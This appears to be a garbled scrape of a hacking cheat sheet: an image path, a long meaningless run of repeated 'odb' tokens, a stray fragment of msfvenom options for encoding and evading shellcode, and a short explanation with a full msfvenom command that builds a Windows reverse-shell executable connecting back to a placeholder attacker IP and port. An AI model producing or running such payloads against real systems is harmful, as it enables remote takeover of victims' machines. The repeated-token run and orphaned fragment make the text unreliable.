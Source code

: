 `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb`, `odb
```bash
-b "\x00\x0a\x0d"
-f c
-e x86/shikata_ga_nai -i 5
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
To create a reverse shell payload for Windows, you can use the `msfvenom` tool from the Metasploit Framework. The `msfvenom` tool allows you to generate various types of payloads, including reverse shells.

Here is an example command to generate a reverse shell payload for Windows:

```plaintext
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f exe > shell.exe
```

In this command, replace `<attacker_ip>` with the IP address of your machine and `<attacker_port>` with the port number you want to use for the reverse shell connection.

The `-p` option specifies the payload to use, in this case, `windows/shell_reverse_tcp` which creates a reverse shell that connects back to the attacker's machine.

The `-f` option specifies the output format, in this case, `exe` which generates an executable file.
